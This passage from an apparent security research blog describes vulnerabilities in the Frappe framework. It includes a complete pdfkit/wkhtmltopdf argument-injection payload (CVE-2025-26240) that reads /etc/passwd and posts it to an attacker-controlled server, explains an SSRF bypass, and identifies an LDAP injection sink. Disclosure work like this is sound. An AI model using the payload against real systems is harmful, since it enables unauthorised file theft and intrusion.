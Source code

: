 I found this behavior to be too non-deterministic to be easily exploitable, however I have decided to include it in the blog since it is a problem and the attack vector is not too complex.

### **4. Exploiting CVE-2025-26240 in Frappe CMS** - Authenticated SSRF / LFI
As we discussed in our previous blog about the pdfkit vulnerability - CVE-2025-26240 ([blog post](https://habuon.github.io/2025/03/12/pdfkit-vulnerability-(CVE-2025-26240).html)) - an attacker can exploit the `from_string` method to achieve SSRF or LFI. In the Frappe CMS, the attacker must be authenticated to call the `/api/method/frappe.utils.print_format.report_to_pdf` endpoint.

Since Frappe adds a few options by default, we need to mock them to ensure they appear before our own arguments. Below is an example of an HTML document that must be sent to achieve LFI in the Frappe framework:
```html
<meta name='pdfkit-print-media-type' content=''>
<meta name='pdfkit-background' content=''>
<meta name='pdfkit-images' content=''>
<meta name='pdfkit-quiet' content=''>
<meta name='pdfkit-encoding' content=''>
<meta name='pdfkit-margin-right' content=''>
<meta name='pdfkit-margin-left' content=''>
<meta name='pdfkit-margin-top' content=''>
<meta name='pdfkit-margin-bottom' content=''>
<meta name='pdfkit-cookie-jar' content=''>
<meta name='pdfkit-page-size' content=''>
<meta name='pdfkit-quiet' content=''>
<meta name='pdfkit---disable-local-file-access' content=''>
<meta name='pdfkit---allow' content='/etc'>
<meta name='pdfkit---post-file' content=''>
<meta name='pdfkit-file--a' content='/etc/passwd'>
<meta name='pdfkit-http://172.17.0.1:8888?LFI-TEST=--' content='--cache-dir'>
<h1>LFI POC</h1>
```
In the payload, `http://172.17.0.1:8888` is an attacker-controlled server with a Python server listening on port `8888`.

When the HTML is sent, we receive the contents of the `/etc/passwd` file, exactly as demonstrated in our CVE-2025-26240 blog ([blog post](https://habuon.github.io/2025/03/12/pdfkit-vulnerability-(CVE-2025-26240).html)).

Similarly, we could achieve SSRF by using the `--script` argument and adding both `--disable-javascript` and `--enable-javascript` immediately afterward. Since the Frappe authors implemented security options to disable JavaScript with `{"disable-javascript": "", "disable-local-file-access": ""}`, this manipulation effectively bypasses those protections.

### **5. LDAP Injection**

The LDAP injection vulnerability is present in `ldap_settings.py`, specifically in the following methods:
- `reset_password` (Line 339) (Authenticated user only)
    - User-provided input is directly used in the LDAP search filter:

        `search_filter = f"({self.ldap_email_field}={user}`
    - This allows an attacker to inject arbitrary LDAP search filters, potentially retrieving unintended user records or modifying authentication behavior.
